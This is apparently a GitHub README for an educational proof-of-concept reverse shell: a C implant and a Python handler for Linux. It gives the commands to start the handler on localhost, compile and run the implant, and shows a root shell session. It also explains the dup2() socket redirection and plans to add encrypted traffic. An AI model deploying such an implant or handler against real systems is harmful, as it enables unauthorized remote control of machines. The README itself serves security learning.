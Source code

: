 # Reverse-Shell
A proof-of-concept reverse shell (written in C) and its handler (written in Python) for learning and educational purpose. The reverse shell is intended for x86 & x64 Linux based systems. However, by [using a cross-compiler](https://jensd.be/1126/linux/cross-compiling-for-arm-or-aarch64-on-debian-or-ubuntu), it can also be repurposed for ARM64/aarch64 Linux systems as well 

# Usage
This PoC is made of two components, a handler and the implant/reverse shell code. 

First, we execute the handler to listen on a particular address and port
```bash
python3 python-handler.py 127.0.0.1 4444
```
Then, we compile the implant/reverse shell code, and execute it by providing it with handler's listening address and port
```bash
gcc -o implant implant.c
./implant 127.0.0.1 4444
```
You'll see the connection on handler's end
```bash
[+] Handler Started On 127.0.0.1:4444
[+] Listening For Connections ...
[+] Connection Received From 127.0.0.1:58902
id
uid=0(root) gid=0(root) groups=0(root)
```

# Features
- Uses multithreaded handler to simultaneously handle receiving output from reverse shell, while sending commands from user
- Implant/reverse shell uses dup2() call to duplicate STDIN, STDOUT, STDERR across the network socket used to communicate with handler

# To Do
- [ ] Refined error handling on handler and implant's end
- [ ] Implement encryption for communication between handler and implant/reverse shell

# References
- https://pymotw.com/2/socket/tcp.html
- https://www.w3schools.com/python/python_try_except.asp
- https://docs.python.org/3/library/socket.html
- https://cocomelonc.github.io/tutorial/2021/09/11/reverse-shells.html
- https://www.idc-online.com/technical_references/pdfs/information_technology/Pairs_in_Python.pdf
- https://www.w3schools.com/python/python_user_input.asp
- https://www.geeksforgeeks.org/python-convert-string-to-bytes/
- https://g3tsyst3m.github.io/sockets/Create-your-own-Netcat-using-Python/
